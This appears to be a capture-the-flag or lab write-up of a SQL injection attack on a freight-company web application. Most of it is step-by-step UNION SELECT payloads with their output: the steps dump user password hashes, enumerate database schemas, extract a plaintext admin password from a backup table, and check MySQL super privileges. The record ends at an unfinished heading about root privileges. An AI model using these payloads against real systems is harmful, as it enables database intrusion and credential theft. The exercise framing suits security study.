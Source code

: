 ## Find username and password from users table

`0' UNION select 1,username, password,4,5 from users-- -`

adam 	1be9f5d3a82847b8acca40544f953515

## Find all column name for payment table (Not important for hacking this part)

`0' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='payment'-- -`

d 	    payment 	ilfreight
name 	  payment 	ilfreight
month 	payment 	ilfreigh
amount 	payment 	ilfreight
tax 	  payment 	ilfreight


## Find table names of backup database (Not important for this hacking task)

`0' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -`

admin_bk 	backup

## Find table names of admin_bk database (Not important for this hacking task)

`0' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA, 5 from INFORMATION_SCHEMA.COLUMNS where table_name='admin_bk'-- -`

username 	admin_bk 	backup
password 	admin_bk 	backup

## Find username and password from backup table of admin_bk database (Not important for this hacking task)

`0' UNION select 1,username, password,4,5 from backup.admin_bk-- -`

admin 	Inl@n3_fre1gh7_adm!n

NOTE: I loggied in using above credentials but it was exactly same 

## Find if user have super privilage

`0' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user-- -`

Y

## Find if root user have super privilage
